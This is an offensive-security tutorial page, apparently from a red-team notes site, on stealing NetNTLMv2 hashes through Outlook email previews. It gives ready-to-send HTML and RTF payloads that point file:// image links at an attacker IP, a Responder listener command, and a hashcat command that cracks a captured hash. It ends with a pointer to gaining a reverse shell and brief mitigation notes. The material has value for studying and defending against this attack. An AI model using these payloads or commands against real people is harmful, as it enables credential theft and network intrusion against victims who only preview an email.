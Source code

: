 # NetNTLMv2 hash stealing using Outlook

## Context

If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.

{% hint style="warning" %}
Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.
{% endhint %}

## Weaponization

Let's create a new HTML file with the below:

{% tabs %}
{% tab title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://157.230.60.143/download.jpg">
</html>
```
{% endtab %}
{% endtabs %}

An RTF file also works:

{% tabs %}
{% tab title="message.rtf" %}
```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endtab %}
{% endtabs %}

Then insert a new file by clicking the attachment icon at the top on the window title bar:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-09-57.png)

Select the malicious messge.html and select `Insert as Text`:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-11-07.png)

You should see that your message now looks like an HTML with a broken image \(expected in our case since the path to the image is fake\):

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-11-47.png)

## Execution

Fire up `Responder` to listen for incoming SMB authentication requests from the victim

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
responder -I eth1 -v
```
{% endtab %}
{% endtabs %}

..and send the malicious email to the victim.

## Victim View

Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server \(running Responder\). This will give away the victim's `NetNTLMv2` hashes to the attacker, which they can then attempt at cracking:

![](../../.gitbook/assets/peek-2018-12-28-15-05.gif)

Once the hash is stolen, we can attempt cracking it:

{% tabs %}
{% tab title="attacker@kali" %}
```csharp
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endtab %}
{% endtabs %}

In this case, we can see the user had a ridiculously simple password, which got cracked immediately:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-16-46.png)

The next step would be to use Ruler to gain a reverse shell from the victims corporate network:

{% page-ref page="password-spraying-outlook-web-access-remote-shell.md" %}

## Mitigation

* Patch Windows and Outlook
* Block outgoing SMB connections to the Internet
* Read emails in plain text
* Enforce strong passwords

## References

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/" %}

